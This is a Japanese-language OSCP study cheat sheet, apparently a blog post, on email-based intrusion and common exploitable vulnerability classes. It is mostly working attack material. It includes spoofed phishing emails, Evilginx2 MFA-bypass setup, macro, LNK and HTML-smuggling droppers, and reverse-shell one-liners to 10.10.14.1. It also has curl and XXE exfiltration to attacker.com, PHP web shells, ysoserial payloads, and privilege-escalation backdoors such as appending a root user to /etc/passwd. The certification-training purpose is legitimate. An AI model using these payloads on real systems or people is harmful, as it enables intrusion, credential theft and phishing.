

## TL;DR

ペネトレーションテストにおいて **メール (Email) は最も一般的な初期侵入ベクタ** の一つです。フィッシング・悪意ある添付ファイル・SMTP 設定ミスなど多様な手口があります。本記事では OSCP 試験で役立つメール経由の攻撃フローを整理し、あわせて OSCP で頻出する脆弱性カテゴリとその悪用手順をまとめます。

---

## Part 1: メール経由の攻撃ベクタ

### 攻撃フロー全体像

```mermaid
graph TD
    A[攻撃者] --> B{メール送信手段}
    B --> C[Open Relay / SMTP Auth]
    B --> D[メールスプーフィング]
    B --> E[フィッシングインフラ]

    C --> F[悪意ある添付ファイル]
    D --> F
    E --> F

    F --> G{添付タイプ}
    G --> H[Office Macro .docm/.xlsm]
    G --> I[LNK ファイル]
    G --> J[HTA / HTML Smuggling]
    G --> K[PDF with Link]
    G --> L[ISO/IMG]

    H --> M[コードが実行される]
    I --> M
    J --> M
    K --> N[フィッシングサイトへ誘導]
    L --> M

    M --> O[リバースシェル取得]
    N --> P[認証情報窃取]
    O --> Q[権限昇格・横展開]
    P --> Q
```



---

### 1. SMTP / メールサーバーの偵察

ターゲットのメールインフラを把握することが攻撃の第一歩です。

```bash
# MX レコードの確認
dig MX target.com
nslookup -type=MX target.com

# SMTP サーバーへの接続確認
telnet mail.target.com 25
nc -nv mail.target.com 25

# SMTP バナー取得
nmap -sV -p 25,465,587 target.com

# SMTP ユーザー列挙 (VRFY / EXPN / RCPT TO)
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t mail.target.com
smtp-user-enum -M RCPT -U users.txt -D target.com -t mail.target.com

# Metasploit でのユーザー列挙
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS mail.target.com
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
run
```

#### SMTP サービスのバージョン確認と既知 CVE の調査

| SMTP ソフトウェア | 代表的な脆弱性 | 検索キーワード |
|---|---|---|
| Sendmail | 古いバージョンのバッファオーバーフロー | `sendmail exploit site:exploit-db.com` |
| Exim | CVE-2019-10149 (RCE), CVE-2020-28017 | `exim RCE exploit` |
| Postfix | 設定ミスによる Open Relay | `postfix open relay check` |
| hMailServer | 弱い認証 / SQL インジェクション | `hmailserver pentest` |
| MailEnable | パストラバーサル / 認証バイパス | `mailenable exploit` |

---

### 2. Open Relay の悪用

Open Relay は認証なしで外部ドメイン宛のメールを中継してしまう設定ミスです。

```bash
# Open Relay テスト (手動)
telnet mail.target.com 25
EHLO attacker.com
MAIL FROM: <fake@attacker.com>
RCPT TO: <victim@external.com>   # 外部ドメイン宛が通れば Open Relay
DATA
Subject: Test

test body
.
QUIT

# Nmap スクリプトでの確認
nmap --script smtp-open-relay -p 25 mail.target.com

# swaks を使ったテスト送信
swaks --to victim@target.com --from spoofed@legit.com --server mail.target.com --port 25
```

---

### 3. メールスプーフィング (SPF/DKIM/DMARC の確認)

スプーフィングが可能かどうかは DNS レコードで判断します。

```bash
# SPF レコードの確認
dig TXT target.com | grep spf

# DMARC レコードの確認
dig TXT _dmarc.target.com

# DKIM セレクタ確認 (よく使われるセレクタ名)
dig TXT default._domainkey.target.com
dig TXT google._domainkey.target.com
dig TXT selector1._domainkey.target.com

# スプーフィング可否の判断基準
# SPF なし          → スプーフィング可能性高
# DMARC: p=none    → スプーフィングしても警告なし (メール届く)
# DMARC: p=quarantine → 迷惑メールに入る可能性
# DMARC: p=reject  → 弾かれる可能性が高い
```

#### スプーフィング用メール送信ツール

```bash
# swaks でスプーフィングメール送信
swaks \
  --to victim@target.com \
  --from ceo@target.com \
  --header "Subject: 緊急：パスワード変更のお願い" \
  --body "以下のリンクからパスワードを更新してください: http://attacker.com/reset" \
  --server mail.target.com

# Python の smtplib を使う場合
python3 -c "
import smtplib
from email.mime.text import MIMEText
msg = MIMEText('本文')
msg['Subject'] = '緊急連絡'
msg['From'] = 'admin@target.com'
msg['To'] = 'victim@target.com'
with smtplib.SMTP('mail.target.com', 25) as s:
    s.sendmail('admin@target.com', ['victim@target.com'], msg.as_string())
"
```

---

### 4. フィッシングと認証情報窃取

#### 4.1 フィッシングサイトの構築

```bash
# Gophish のセットアップ (フィッシングフレームワーク)
wget https://github.com/gophish/gophish/releases/latest/download/gophish-v0.12.1-linux-64bit.zip
unzip gophish-*.zip
chmod +x gophish
./gophish
# → https://127.0.0.1:3333 で管理画面にアクセス (admin/gophish)

# SET (Social Engineering Toolkit) を使う場合
sudo setoolkit
# 1) Social-Engineering Attacks
# 2) Website Attack Vectors
# 3) Credential Harvester Attack Method
# 2) Site Cloner → ターゲットサイトの URL を入力
```

#### 4.2 Evilginx2 を使ったリバースプロキシフィッシング (MFA バイパス)

```bash
# Evilginx2 のセットアップ
git clone https://github.com/kgretzky/evilginx2
cd evilginx2 && make
sudo ./bin/evilginx -p phishlets/

# 設定例 (Microsoft 365 を対象)
config domain phish.attacker.com
config ipv4 1.2.3.4
phishlets hostname o365 login.phish.attacker.com
phishlets enable o365
lures create o365
lures get-url 0
# → フィッシング URL を被害者に送付
# → ログイン成功後、セッションクッキーが奪取される (MFA 済みセッション)
```

---

### 5. 悪意ある添付ファイルの作成

#### 5.1 Office マクロ (VBA) を使ったシェル実行

> OSCP 試験ではペイロードの実行方法の理解が問われます。実際のマクロの挙動を把握しておきましょう。

```vba
' Word/Excel マクロ (VBA) の基本構造
Sub AutoOpen()     ' Word 用。Excel は Auto_Open()
    Dim cmd As String
    cmd = "powershell -nop -w hidden -e BASE64_ENCODED_PAYLOAD"
    Shell "cmd.exe /c " & cmd, vbHide
End Sub
```

```bash
# msfvenom でペイロード生成 (リバースシェル)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.1 LPORT=4444 -f powershell -o shell.ps1

# Base64 エンコード (PowerShell)
cat shell.ps1 | iconv -t UTF-16LE | base64 -w 0

# macropack を使ったマクロ埋め込み
pip install macro_pack
echo "powershell -e BASE64PAYLOAD" | macro_pack -t CMD -o -G evil.docm
```

#### 5.2 LNK ファイルを使ったペイロード実行

```bash
# PowerShell で LNK ファイル作成
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut("C:\Users\Public\Documents\resume.lnk")
$Shortcut.TargetPath = "C:\Windows\System32\cmd.exe"
$Shortcut.Arguments = "/c powershell -nop -w hidden -e BASE64PAYLOAD"
$Shortcut.IconLocation = "C:\Windows\System32\shell32.dll,70"
$Shortcut.Save()

# lnkbomb で作成 (Kali)
python3 lnkbomb.py -s attacker_share -o evil.lnk
```

#### 5.3 HTML Smuggling (メールフィルタ回避)

HTML Smuggling はメール本文に Base64 エンコードされたファイルを埋め込み、ブラウザ側でデコード・ダウンロードさせる手法です。

```html
<!-- HTML Smuggling の基本的な仕組み -->
<html>
<body>
<script>
  // ペイロードを Base64 で埋め込む
  const data = "BASE64_ENCODED_EXE_OR_ISO";
  const bytes = Uint8Array.from(atob(data), c => c.charCodeAt(0));
  const blob = new Blob([bytes], {type: 'application/octet-stream'});
  const url = URL.createObjectURL(blob);

  // 自動ダウンロードをトリガー
  const a = document.createElement('a');
  a.href = url;
  a.download = 'invoice.iso';
  document.body.appendChild(a);
  a.click();
</script>
<p>ドキュメントをダウンロードしています...</p>
</body>
</html>
```

#### 5.4 ISO/IMG ファイルを使ったパス (Mark-of-the-Web 回避)

Windows 10/11 でメールからダウンロードした実行ファイルは **MOTW (Mark-of-the-Web)** フラグが付き SmartScreen でブロックされます。ISO ファイルはマウント後の内部ファイルに MOTW が付かないため回避に使われます。

```bash
# ISO ファイルに実行ファイルを埋め込む
apt install genisoimage
genisoimage -o evil.iso -J -R /path/to/payload_directory/

# Windows で ISO 作成 (PowerShell)
# New-ISOFile コマンドレットや OSCDIMG を使用
```

---

### 6. SMTP 認証クレデンシャルのブルートフォース

```bash
# Hydra で SMTP 認証ブルートフォース
hydra -l admin@target.com -P /usr/share/wordlists/rockyou.txt smtp://mail.target.com

# SMTP over TLS (465/587)
hydra -l admin@target.com -P passwords.txt -s 587 -S smtp://mail.target.com

# Medusa を使う場合
medusa -u admin@target.com -P /usr/share/wordlists/rockyou.txt -h mail.target.com -M smtp

# Nmap ブルートフォーススクリプト
nmap -p 25 --script smtp-brute --script-args userdb=users.txt,passdb=passwords.txt mail.target.com
```

---

### 7. メールサービスの既知 CVE 悪用

#### Exim CVE-2019-10149 (Remote Code Execution)

```bash
# Exim バージョン確認
telnet mail.target.com 25
# → 220 mail.target.com ESMTP Exim 4.87 ...

# ExploitDB から PoC を取得
searchsploit exim 4.87
searchsploit -m 46974   # CVE-2019-10149

# Metasploit で悪用
use exploit/unix/smtp/exim4_dovecot_exec
set RHOSTS mail.target.com
set LHOST 10.10.14.1
run
```

#### hMailServer の SQL インジェクション

```bash
# hMailServer は MS SQL / MySQL をバックエンドに使用
# 管理 Web インターフェースのパストラバーサルや SQLi を確認
searchsploit hmailserver
```

---

## Part 2: OSCP 頻出脆弱性ガイド

### 脆弱性カテゴリ早見表

| カテゴリ | OSCP 出現頻度 | 難易度 |
|---|---|---|
| バッファオーバーフロー (Windows) | ★★★★★ | 高 |
| SQL インジェクション | ★★★★★ | 中 |
| LFI / RFI | ★★★★★ | 低〜中 |
| コマンドインジェクション | ★★★★☆ | 低 |
| ファイルアップロード | ★★★★☆ | 低〜中 |
| SUID/sudo 権限昇格 (Linux) | ★★★★★ | 中 |
| サービス・レジストリ系 (Windows) | ★★★★☆ | 中 |
| XXE | ★★★☆☆ | 中 |
| SSRF | ★★★☆☆ | 中 |
| 安全でない逆シリアル化 | ★★★☆☆ | 高 |

---

### 1. バッファオーバーフロー (Windows x86)

OSCP で最頻出のスキルです。独自のエクスプロイトを書く必要があります。

```bash
# 典型的な手順
# Step 1: クラッシュするオフセットを特定
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
# → 生成したパターンをペイロードとして送信 → EIP の値をメモ

# Step 2: オフセット計算
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 4f4f4f4f -l 3000
# → [*] Exact match at offset 2003

# Step 3: EIP 制御の確認
# オフセット分の "A" + "B"*4 (EIP) + "C"*200 (バッファ確認)

# Step 4: バッドキャラクターの特定
# \x00 から \xff まで全バイトを送信し、メモリで確認

# Step 5: JMP ESP アドレスの検索 (ASLR なし環境)
# Immunity Debugger + mona.py
# !mona jmp -r esp -cpb "\x00\x0a"

# Step 6: シェルコード生成
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.1 LPORT=4444 \
  -b "\x00\x0a" -f python -v shellcode

# Step 7: エクスプロイト組み立て
# "A" * offset + pack("<I", jmp_esp_addr) + "\x90"*16 + shellcode
```

---

### 2. SQL インジェクション

```bash
# 手動での確認
# エラーベース
' OR '1'='1
' OR 1=1--
' OR 1=1#

# UNION ベース (カラム数の特定)
' ORDER BY 1--
' ORDER BY 2--
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

# データベース情報の取得 (MySQL)
' UNION SELECT 1,database(),3--
' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database()--
' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users'--
' UNION SELECT 1,group_concat(username,':',password),3 FROM users--

# ファイル読み取り (MySQL + FILE 権限)
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3--

# Web シェル書き込み
' UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php'--
```

```bash
# sqlmap を使った自動化
sqlmap -u "http://target.com/page.php?id=1" --dbs
sqlmap -u "http://target.com/page.php?id=1" -D targetdb --tables
sqlmap -u "http://target.com/page.php?id=1" -D targetdb -T users --dump
sqlmap -u "http://target.com/page.php?id=1" --os-shell  # インタラクティブシェル
sqlmap -u "http://target.com/page.php?id=1" --file-read /etc/passwd
sqlmap -r request.txt --level=5 --risk=3  # Burp でキャプチャしたリクエストから

# POST パラメータ
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=test" -p user
```

---

### 3. LFI (Local File Inclusion) / RFI (Remote File Inclusion)

```bash
# LFI の基本的なペイロード
http://target.com/page.php?file=../../../../etc/passwd
http://target.com/page.php?file=../../../../etc/shadow
http://target.com/page.php?file=../../../../windows/system32/drivers/etc/hosts

# PHP Wrapper を使ったソースコード読み取り
http://target.com/page.php?file=php://filter/convert.base64-encode/resource=index.php
# → Base64 デコード → ソースコードが読める

# ログファイルポイズニング経由の RCE (Log Poisoning)
# Step 1: User-Agent にPHP コードを混入
curl -A "<?php system(\$_GET['cmd']); ?>" http://target.com/

# Step 2: LFI でアクセスログを読み込む
http://target.com/page.php?file=../../../../var/log/apache2/access.log&cmd=id

# よくある読み込み対象ログ
# /var/log/apache2/access.log
# /var/log/nginx/access.log
# /var/log/auth.log        (SSH ログイン試行に PHP を埋め込む)
# /proc/self/environ       (HTTP_USER_AGENT を悪用)

# RFI (リモートファイルインクルード)
# PHP の allow_url_include=On が必要
http://target.com/page.php?file=http://attacker.com/shell.php

# Null byte インジェクション (PHP 5.3 以下)
http://target.com/page.php?file=../../../../etc/passwd%00

# ディレクトリトラバーサルのエンコードバイパス
%2e%2e%2f → ../
%2e%2e/ → ../
..%2f → ../
%252e%252e%252f → ../ (ダブルエンコード)
```

```bash
# LFI から RCE への昇格 (phpinfo() 経由 - Race Condition)
# php_filter_chain_generator を使ったシェル実行
git clone https://github.com/synacktiv/php_filter_chain_generator
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'
# → 生成された filter チェーン URL を LFI パラメータに指定
```

---

### 4. コマンドインジェクション

```bash
# 基本的なペイロード
; id
& id
| id
`id`
$(id)
; id #     (コメントで後続をキャンセル)

# OS 判定
; ping -c 1 attacker.com    # Linux
& ping -n 1 attacker.com    # Windows

# アウトバンド確認 (応答なしでも確認)
; curl http://attacker.com/$(id | base64)
; nslookup $(id).attacker.com

# リバースシェル取得
; bash -i >& /dev/tcp/10.10.14.1/4444 0>&1
; nc -e /bin/sh 10.10.14.1 4444
; python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.14.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

# フィルタ回避
# スペースの代替
${IFS}    → スペース
{cat,/etc/passwd}
$'\x20'   → スペース

# 文字列分割
'i''d'   → id
i\d      → id
```

---

### 5. ファイルアップロードの悪用

```bash
# Web シェルのアップロード
# PHP シェル
echo '<?php system($_GET["cmd"]); ?>' > shell.php
echo '<?php passthru($_POST["cmd"]); ?>' > shell.php

# 拡張子フィルタのバイパス
shell.php.jpg     # ダブル拡張子
shell.pHp         # 大文字混在
shell.php%00.jpg  # Null byte
shell.php5 / shell.phtml / shell.phar  # 代替 PHP 拡張子
shell.asp / shell.aspx / shell.ashx   # ASP/ASPX
shell.jsp / shell.jspx                # JSP

# Content-Type の偽装
# Burp Suite で Content-Type を image/jpeg に変更

# マジックバイト (ファイル先頭シグネチャ) の偽装
# GIF ヘッダーを先頭に付ける
echo -e 'GIF89a\n<?php system($_GET["cmd"]); ?>' > shell.gif.php

# exiftool を使ったメタデータへの埋め込み
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
mv image.jpg shell.php.jpg
```

---

### 6. XXE (XML External Entity)

```xml
<!-- 基本的な XXE ペイロード -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>

<!-- ブラインド XXE (OOB 経由) -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % remote SYSTEM "http://attacker.com/xxe.dtd">
  %remote;
]>
<root><data>&send;</data></root>

<!-- attacker.com/xxe.dtd の内容 -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % wrap "<!ENTITY send SYSTEM 'http://attacker.com/?data=%file;'>">
%wrap;

<!-- SSRF への転用 -->
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
```

```bash
# Burp Suite の Collaborator を使ったブラインド XXE 確認
# Content-Type: application/xml に変更してリクエスト送信

# gopher:// や expect:// を使った RCE (設定次第)
<!ENTITY xxe SYSTEM "expect://id">
```

---

### 7. SSRF (Server-Side Request Forgery)

```bash
# 基本的な SSRF テスト
# パラメータ候補: url=, path=, dest=, redirect=, uri=, proxy=, next=, site=, callback=

# 内部サービスの探索
http://target.com/fetch?url=http://127.0.0.1/
http://target.com/fetch?url=http://localhost/
http://target.com/fetch?url=http://192.168.1.1/

# クラウドメタデータの取得
http://target.com/fetch?url=http://169.254.169.254/latest/meta-data/  # AWS
http://target.com/fetch?url=http://169.254.169.254/metadata/v1/       # DigitalOcean
http://target.com/fetch?url=http://metadata.google.internal/          # GCP

# プロトコルのバリエーション
http://target.com/fetch?url=file:///etc/passwd     # ローカルファイル読み取り
http://target.com/fetch?url=dict://127.0.0.1:11211 # Memcached
http://target.com/fetch?url=gopher://127.0.0.1:25/ # SMTP

# フィルタバイパス
http://target.com/fetch?url=http://127.1/                    # 省略 IP
http://target.com/fetch?url=http://2130706433/               # 10進数 IP (127.0.0.1)
http://target.com/fetch?url=http://0x7f000001/               # 16進数 IP
http://target.com/fetch?url=http://attacker.com@127.0.0.1/  # @ 認証情報バイパス
```

---

### 8. 安全でない逆シリアル化 (Deserialization)

```bash
# Java の逆シリアル化 (ysoserial)
# 影響を受けるミドルウェア: Jenkins, WebLogic, JBoss, Tomcat, Apache Commons Collections

# ysoserial でペイロード生成
java -jar ysoserial.jar CommonsCollections1 "cmd /c ping attacker.com" > payload.ser
java -jar ysoserial.jar CommonsCollections6 "bash -c {bash,-i,>&,/dev/tcp/10.10.14.1/4444,0>&1}" | base64

# Burp Suite で Java オブジェクトを識別するマジックバイト
# AC ED 00 05 (バイナリ) または rO0A... (Base64)

# PHP の逆シリアル化
# O:8:"stdClass":1:{s:4:"code";s:2:"id";}  ← オブジェクトインジェクション
# 脆弱な PHP コードの例:
# $obj = unserialize($_COOKIE['session']);

# Python (pickle) の逆シリアル化
python3 -c "
import pickle, os, base64
class Exploit(object):
    def __reduce__(self):
        return (os.system, ('id',))
print(base64.b64encode(pickle.dumps(Exploit())))
"
```

---

### 9. Linux 権限昇格の頻出パターン

```bash
# 自動化ツールの実行
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
./linpeas.sh 2>/dev/null | tee linpeas.txt

# SUID ファイルの検索
find / -perm -4000 -type f 2>/dev/null
# → GTFOBins (https://gtfobins.github.io/) で悪用方法を確認

# Sudo 権限の確認
sudo -l
# → (root) NOPASSWD: /usr/bin/python3 → sudo python3 -c 'import os;os.execv("/bin/sh",["sh"])'

# Writable な /etc/passwd
echo 'hacker:$6$salt$hash:0:0::/root:/bin/bash' >> /etc/passwd

# Cron ジョブの確認
cat /etc/cron* /etc/crontab 2>/dev/null
ls -la /etc/cron.d/ /etc/cron.daily/ /etc/cron.hourly/ /var/spool/cron/

# PATH ハイジャック (相対パスで実行されるコマンド)
export PATH=/tmp:$PATH
echo '/bin/bash' > /tmp/service  # 'service' コマンドが相対パス実行される場合
chmod +x /tmp/service

# NFS の no_root_squash 確認
cat /etc/exports
# → /share *(rw,no_root_squash) → 攻撃者マシンから root でマウントして SUID バイナリを配置
```

---

### 10. Windows 権限昇格の頻出パターン

```powershell
# 自動化ツールの実行
# PowerShell (ダウンロードして実行)
iex (New-Object Net.WebClient).DownloadString('http://10.10.14.1/winpeas.ps1')

# winPEAS.exe をアップロードして実行
.\winPEAS.exe

# AlwaysInstallElevated の確認
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# → 両方 0x1 なら MSI ファイルで SYSTEM 昇格可能
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.1 LPORT=4444 -f msi -o evil.msi
msiexec /quiet /qn /i evil.msi

# サービスの実行パス (Unquoted Service Path)
wmic service get name,pathname,startmode | findstr /i /v "C:\Windows" | findstr /i /v """

# 書き込み可能なサービスバイナリ
# sc qc VulnService → バイナリパスを確認
icacls "C:\Program Files\VulnApp\service.exe"

# DLL ハイジャック
# Process Monitor でロードに失敗している DLL を確認 → 書き込み可能パスに配置
```

---

## チートシート: メール侵入から内部展開まで



---

## OSCP Tips

| ポイント | アドバイス |
|---|---|
| **列挙を徹底する** | nmap → gobuster/feroxbuster → nikto → 手動確認の順で漏れなく調査 |
| **バージョンを必ず調べる** | searchsploit / exploit-db でサービスバージョンから CVE を探す |
| **メモを取る** | 試したコマンドと結果を Obsidian / CherryTree で記録しておく |
| **BoF は必ず練習** | brainpan, dostackbufferoverflowgood, vulnserver で手を動かす |
| **試験時間の配分** | 易しいマシンから確実に点を取る。詰まったら一旦別マシンへ |
| **レポートを書く練習** | 攻撃ステップをスクリーンショット付きで記録する習慣をつける |

---

## 参考リンク

- [GTFOBins](https://gtfobins.github.io/) — SUID/sudo 悪用テクニック集
- [HackTricks](https://book.hacktricks.xyz/) — Web 攻撃・権限昇格リファレンス
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) — ペイロード集
- [ExploitDB](https://www.exploit-db.com/) — 公開 CVE と PoC
- [OSCP Guide by Sagi](https://github.com/0xsyr0/OSCP) — OSCP チートシート
